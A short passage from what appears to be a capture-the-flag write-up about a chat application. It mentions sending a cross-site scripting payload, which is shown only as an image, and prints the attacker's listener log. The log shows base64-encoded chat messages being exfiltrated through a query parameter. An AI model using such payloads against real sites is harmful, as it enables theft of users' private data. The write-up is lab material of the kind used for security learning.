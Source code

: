 ```js
});
```

So I sent the following payload:

<p align="center">
  <img src="images/xss.png" />
</p>

The response received from the server is:

```bash
10.10.11.6 - - [13/Mar/2024 13:51:27] code 501, message Unsupported method ('OPTIONS')
10.10.11.6 - - [13/Mar/2024 13:51:27] "OPTIONS /?d=R3JlZXRpbmdzIS4gSG93IGNhbiBpIGhlbHAgeW91IHRvZGF5ID8uIFlvdSBjYW4gdHlwZSBoZWxwIHRvIHNlZSBzb21lIGJ1aWxkaW4gY29tbWFuZHM= HTTP/1.1" 501 -
10.10.11.6 - - [13/Mar/2024 13:51:27] code 501, message Unsupported method ('OPTIONS')
10.10.11.6 - - [13/Mar/2024 13:51:27] "OPTIONS /?d=SGVsbG8sIEkgYW0gQWRtaW4uVGVzdGluZyB0aGUgQ2hhdCBBcHBsaWNhdGlvbg== HTTP/1.1" 501 -
10.10.11.6 - - [13/Mar/2024 13:51:27] code 501, message Unsupported method ('OPTIONS')
10.10.11.6 - - [13/Mar/2024 13:51:27] "OPTIONS /?d=V3JpdGUgYSBzY3JpcHQgZm9yICBkZXYtZ2l0LWF1dG8tdXBkYXRlLmNoYXRib3QuaHRiIHRvIHdvcmsgcHJvcGVybHk= HTTP/1.1" 501 -
10.10.11.6 - - [13/Mar/2024 13:51:27] code 501, message Unsupported method ('OPTIONS')
10.10.11.6 - - [13/Mar/2024 13:51:27] "OPTIONS /?d=V3JpdGUgYSBzY3JpcHQgdG8gYXV0b21hdGUgdGhlIGF1dG8tdXBkYXRl HTTP/1.1" 501 -
```
